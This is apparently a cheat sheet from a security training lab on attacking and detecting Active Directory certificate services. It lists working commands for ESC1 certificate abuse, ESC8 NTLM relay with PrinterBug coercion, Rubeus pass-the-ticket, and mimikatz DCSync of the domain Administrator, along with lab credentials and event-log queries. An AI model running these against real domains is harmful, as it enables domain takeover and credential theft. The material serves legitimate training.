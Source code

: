 ## Object ACLs

| Command                            | Description                                                |
| ---------------------------------- | ---------------------------------------------------------- |
| `setspn -D http/ws001 anni`        | Removing the http/ws001 SPN from the anni user.            |
| `setspn -U -s ldap/ws001 anni`     | Setting a new SPN, ldap/ws001, on the anni user.           |
| `setspn -S ldap/server02` server01 | Setting a new SPN, ldap/server02, on the server01 machine. |

## PKI - ESC1

| Command                                                                                                          | Description                                                                                                             |
| ---------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- |
| `.\Certify.exe find /vulnerable`                                                                                 | Using the Certify.exe tool to scan for vulnerabilities in PKI infrastructure.                                           |
| `.\Certify.exe request /ca:PKI.eagle.local\eagle-PKI-CA /template:UserCert /altname:Administrator`               | Using the Certify.exe tool to obtain a certifcate from the vulnerable template                                          |
| `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx` | Command to convert a `PEM` certificate to a `PFX` certificate.                                                          |
| `.\Rubeus.exe asktgt /domain:eagle.local /user:Administrator /certificate:cert.pfx /dc:dc1.eagle.local /ptt`     | Using the Rubeus.exe tool to request a TGT for the domain Administrator by way of forged certifcate.                    |
| `runas /user:eagle\htb-student powershell`                                                                       | Start a new instance as powershell as the htb-student user.                                                             |
| `New-PSSession PKI`                                                                                              | Start a new remote powershell session on the `PKI` machine.                                                             |
| `Enter-PSSession PKI`                                                                                            | Enter a remote powershell session on the `PKI` machine.                                                                 |
| `Get-WINEvent -FilterHashtable @{Logname='Security'; ID='4887'}`                                                 | Using the Get-WinEvent cmdlet to view windows Event 4887                                                                |
| `$events = Get-WinEvent -FilterHashtable @{Logname='Security'; ID='4886'}`                                       | Command used to save the events into an array                                                                           |
| `$events[0] \| Format-List -Property *`                                                                          | Command to view events within the array. The `0` can be adjusted to a different number to match the corresponding event |

## PKI & Coercing - ESC8

| Command                                                                                                          | Description                                                                                                                                 |
| ---------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| `impacket-ntlmrelayx -t http://172.16.18.15/certsrv/default.asp --template DomainController -smb2support --adcs` | Command to forward incoming connections to the CA. The `--adcs` switch makes the tool parse and display the certificate if one is received. |
| `python3 ./dementor.py 172.16.18.20 172.16.18.4 -u bob -d eagle.local -p Slavi123`                               | Using the PrinterBug to trigger a connection back to the attacker.                                                                          |
| `xfreerdp /u:bob /p:Slavi123 /v:172.16.18.25 /dynamic-resolution`                                                | Connecting to WS001 from the Kali host using RDP.                                                                                           |
| `.\Rubeus.exe asktgt /user:DC2$ /ptt /certificate:<b64 encoded cert>`                                            | Using Rubeus.exe to ask for a TGT by way of base 64 encoded certificate.                                                                    |
| `mimikatz.exe "lsadump::dcsync /user:Administrator" exit`                                                        | Using mimikatz.exe to DCsync the `administrator` user. This is performed once the TGT for DC2 has been passed to the current session.       |
| `evil-winrm -i 172.16.18.15 -u htb-student -p 'HTB_@cademy_stdnt!'`                                              | Connecting to PKI from the Kali Host using evil-winrm.                                                                                      |

## Windows Events

| Event ID | Description                                                                                                                                        |
| -------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |